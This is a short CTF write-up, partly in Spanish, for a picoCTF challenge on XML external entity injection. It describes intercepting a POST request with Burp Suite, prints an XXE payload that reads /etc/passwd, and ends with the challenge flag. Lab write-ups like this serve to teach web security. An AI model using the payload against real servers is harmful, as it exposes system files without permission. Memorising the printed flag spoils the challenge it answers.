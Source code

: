 #### Descripción

The web project was rushed and no security assessment was done. Can you read the /etc/passwd file?
##### Pista
XML external entity Injection

#### Solución 
Para este problema usaremos burpsite y foxyproxy, para interceptar lo que se manda por post, ahi podemos ver que hay una vulnerabilidad de XXE en donde podemos usar un payload para entrar al usr. 
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<data><ID>&xxe;</ID></data>
```
Con esto ya nos da la bandera en la respuesta.
`picoCTF{XML_3xtern@l_3nt1t1ty_55662c16}`

#### Notas Adicionales

#### Referencias
